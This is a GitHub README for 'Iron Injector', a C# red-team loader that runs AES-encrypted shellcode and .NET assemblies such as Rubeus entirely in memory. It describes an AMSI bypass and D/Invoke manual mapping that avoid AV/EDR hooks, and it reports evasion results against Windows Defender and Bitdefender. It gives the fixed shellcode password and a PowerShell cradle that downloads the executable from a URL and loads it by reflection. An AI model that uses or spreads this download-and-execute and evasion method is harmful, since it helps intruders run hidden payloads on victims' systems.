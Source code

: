 # Iron Injector
Iron Injector is a c# program that allows the user to run a few modules from an interactive prompt. These include ShellLoader and ProgramLoader. ShellLoader serves to load AES encrypted shellcode, given the filename, url, and loader type. Programloader takes a url and program name and conducts a simple AMSI bypass to edit a registry value while the assembly is running and then repair it once the program loader module has been exited. While interacting with the assembly, users can send commands as they would normally do from the command line all while the assembly is in memory and has never touched disk.

![image](https://user-images.githubusercontent.com/15575425/158653309-61d17062-6b70-429e-b51c-527ca533f3bd.png)



## Usage & Command Info
The program comes with two main modules and a set of aux commands to be ran to help the user with input and navigation. 

### The help command
![image](https://user-images.githubusercontent.com/15575425/158652978-d4ff1f1a-6a73-4d3e-afd2-ea846275aa63.png)

### Loading Modules and execution
1. To load a module, just type out the name of the module. Ex: ShellLoader  
2. To see the Modules options, use the Options command.  
3. To set a modules option, use: Set optionName Value   
4. To execute the module, use run
![image](https://user-images.githubusercontent.com/15575425/158653827-46c72464-6336-44d0-b31b-0916156cd50b.png)

### AES encryption
At the moment, the shellcode loader only takes AES encrypted shellcode. See my ShellcodeEncryption project for code that works with this project to decrypt the shellcode. Either way, the shellcode encryption password that should be used is **!r0nInj3ct0r123!** 
https://github.com/Queen-City-Cyber/ShellcodeEncryption

### The Connect Assembly Command 
This command is used to connect to an already loaded assembly after using exit on the interactive prompt from when the assembly is loaded using program Loader. 
ex. ConnectAssembly name.exe
![image](https://user-images.githubusercontent.com/15575425/158664122-43ef2902-328e-4dd1-af1b-f0a1b11f7ecc.png)
This shows an already loaded rubeus.exe; then, using the exit command, I stopped interaction with it downloaded a new exe to interact with then used **connectassembly rubeus.exe** to restart the interaction with the assembly. 

### Loading Iron Injector in memeory
![image](https://user-images.githubusercontent.com/15575425/158663020-816a8615-8572-4c42-af76-59b3a1808ad6.png)
1. "$data = (New-Object System.Net.WebClient).DownloadData('http://127.0.0.1:8081/Iron Injector.exe')"    
2. "$assem =[System.Reflection.Assembly]::Load($data)"    
3. "[Iron_Injector.Program]::Main()"    
** NOTE: the double quotes are just for formatting do not include when running command**    

### AV bypass?
Uses D/Invoke from the wover, to manual map the needed dll files into the process memory and invoke the required methods without touching the hooked APIs from AAV/EDR products.
I have found it works best with stageless shellcode and the program loader uses an amsi bypass to patch a small registry entry this has been caught on some runs and not on others. Like all AV bypasses the challenge and techniques are always updating and the program will be updated with new techniques in the future. 

All testing was done as of 3/15/2022 against windows defender and bitdefender AV with cloud protections
![image](https://user-images.githubusercontent.com/15575425/158664740-80d23cc9-cd55-4cfd-80dc-4f8434b18659.png)
![image](https://user-images.githubusercontent.com/15575425/158664809-80b0e359-2dc5-4fde-9fb9-a541ee1146fb.png)
![image](https://user-images.githubusercontent.com/15575425/158664826-e80a9f72-a344-4d13-8e03-eb6803467a3c.png)


## Features
- verification of user commands vs available commands  
- verification that option trying to be set is real  
- checks that all required options are set before running  
- Dynamic Invocation of encrypted shellcode without touching APIs that are hooked by AV/EDR.
- execution of .net assemblies with the ability to restart interaction all in memory  
- can itself be loaded into memory  

## Compile Instructions 
- download and open in VS, at the top set mode to release and CPU to any or x64 then build. 

## Possible Future content
- pe loader to load things like mimikatz  
- more shellcode loading methods  
- custom aes encryption password setting   
- better methods of AV bypass for loading .net assemblies  

## Disclaimer
I am not responsible for actions taken by users of Iron Injector. Iron Injector was released solely for educational and ethical purposes.
